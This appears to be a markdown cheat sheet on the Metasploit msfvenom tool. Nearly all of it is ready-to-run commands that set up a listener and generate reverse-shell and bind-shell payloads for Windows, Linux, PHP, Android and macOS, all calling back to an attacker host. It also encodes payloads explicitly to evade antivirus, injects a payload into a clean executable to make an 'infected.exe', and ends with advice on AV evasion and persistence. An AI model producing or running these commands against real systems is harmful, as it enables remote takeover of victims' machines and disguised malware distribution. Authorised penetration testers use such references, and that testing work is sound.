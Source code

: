 #Tool
## Info

- **Type:** Payload generation tool
- **Part of:** Metasploit Framework
- **Common Usage:** Generates shellcode and payloads for exploitation
- **Supports:** Multiple architectures (x86, x64, ARM), platforms (Windows, Linux, macOS, Android), and output formats (EXE, ELF, APK, DLL, etc.)

## Usage

### Listener Setup in Metasploit

Before executing a payload, set up a Metasploit listener to receive the reverse connection:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $ATTACKER_IP
set LPORT 4444
run
```

_Alternatively, use `exploit -j` to run it in the background._

---

### Generating a Basic Reverse Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

- `-p`: Payload type
- `LHOST`: Attacker's IP (listening machine)
- `LPORT`: Listening port for reverse connection
- `-f`: Format of output (e.g., exe, elf, raw, py, etc.)
- `-o`: Output file

---

### Common Payloads

#### Windows Payloads

```bash
# Windows Meterpreter Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe

# Windows Staged Reverse Shell
msfvenom -p windows/shell/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

#### Linux Payloads

```bash
# Linux Reverse Shell (ELF binary)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f elf -o shell.elf

# Linux Bind Shell
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf -o bindshell.elf
```

#### Web Shells (PHP, ASP, JSP)

```bash
# PHP Reverse Shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f raw > shell.php
```

#### Android Payload

```bash
# Malicious APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -o shell.apk
```

#### MacOS Payload

```bash
# MacOS Reverse Shell
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f macho -o shell.macho
```

---

### Encoding Payloads (Bypass AV Detection)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
```

- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Iterations (multiple encoding passes)

---

### Injecting Payloads into Executables

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -x clean.exe -k -f exe -o infected.exe
```

- `-x`: Base executable file
- `-k`: Keep functionality of the original file (can increase detection rate)

---

### Converting Payloads to Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f c
```

- Outputs shellcode in **C format** for manual injection

---

### Additional Notes

- **Always test payloads in a controlled environment** before using them
- **Use encoding techniques to bypass antivirus detection**
- **For persistence**, consider combining with `Metasploit Persistence Scripts`
- **To run Metasploit in the background**, use `exploit -j -z`

